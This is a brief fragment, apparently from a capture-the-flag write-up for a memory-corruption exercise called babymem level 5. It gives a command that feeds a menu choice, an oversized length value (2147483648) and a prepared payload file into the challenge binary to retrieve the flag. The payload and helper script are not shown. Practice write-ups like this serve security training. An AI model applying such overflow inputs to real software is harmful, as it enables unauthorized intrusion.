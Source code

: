 You can use the following command to get the flag.

```
./run.py
(echo "2"; echo "2147483648"; cat payload) | /babymem_level5_testing2
```